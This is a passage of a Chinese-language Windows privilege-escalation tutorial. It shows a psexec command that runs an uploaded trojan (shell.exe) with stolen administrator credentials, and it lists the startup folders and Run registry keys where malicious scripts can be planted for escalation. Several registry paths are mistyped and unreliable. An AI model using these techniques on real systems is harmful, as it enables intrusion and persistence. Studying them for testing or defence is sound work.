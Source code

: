 ```
如果得到管理员的密码，即可使用工具psexec来执行上传的木马文件来提权。
shell psexec.exe administrator:Admin@123@192.168.15.145 "C:\Users\test\Desktop\shell.exe"
```

![image-20241015202557755](操作系统提权/image-20241015202557755.png)	

![image-20241015202610881](操作系统提权/image-20241015202610881.png)	

### 启动项提权

```
提权原理 
windows启动项目录下的脚本可以开机自启，利用这一个特性向上述的目录传入恶意的脚本达到提权的目的，前提是有目录或者注册表的更改权限。
```

```
启动项文件夹如下，只要把文件放进去就会开机自动启动里面的程序。
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
C: \Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
启动注册表如下
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current\Version\Policies\Explorer\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\Current\Version\RunServicesOnce
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current\Version\Run\ServicesOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\Services
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current\Version\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\Current\Version\Run\Oncel\Setup
HKEY_LOCAL_MACHINE\SOFTWAREMicrosoft\Windows\Current\Version\Run\Once\Setup
HKEY_LOCAL_MACHINE\SOFT\WAREMicrosoft\Windows\CurrentVersion\RunOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\Current\Version\RunOnce
HKEY_CURRENT_USER\SoftwarelMicrosoft\Windows\Current\Version\Run
HKEY_LOCAL_MACHINE\SOFT\WARE\Microsoft\Windows\Current\Version\Run
```

```
比如说管理员给启动项文件夹设置了普通用户test可读写的权限。
```
